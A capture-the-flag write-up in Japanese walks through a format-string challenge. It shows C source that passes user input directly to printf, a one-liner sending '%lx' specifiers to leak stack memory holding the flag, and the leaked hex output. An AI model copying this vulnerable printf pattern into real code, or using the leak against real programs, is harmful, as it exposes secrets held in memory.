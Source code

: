 ソースコードが渡された。
```c
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
`scanf`で入力を受け取り、そのまま`printf`に渡している。
format string0と同じように%sを大量に渡してメモリリークをしようとすると`segmentation fault`が起こってしまうので、`%x`でリークして文字列に変換する。
*command1:*
```bash
python -c 'print("%lx."*20)' | ./format-string-1
```
*output1:*
```
Give me your order and I'll read it back to you:
Here's your order: 7ffdf8a41a10.0.0.a.400.9.0.0.7ac85b362ab0.7ffd00000000.7ffdf8a41c38.0.7ffdf8a41c40.7b4654436f636970.636f6c5f656b6166.7d67616c665f6c61.a.0.7ac85b3577b7.7ac85b363680.
Bye!
```
*command2:*
```bash
python decode.py 7ffdf8a41a10.0.0.a.400.9.0.0.7ac85b362ab0.7ffd00000000.7ffdf8a41c38.0.7ffdf8a41c40.7b4654436f636970.636f6c5f656b6166.7d67616c665f6c61.a.0.7ac85b3577b7.7ac85b363680
```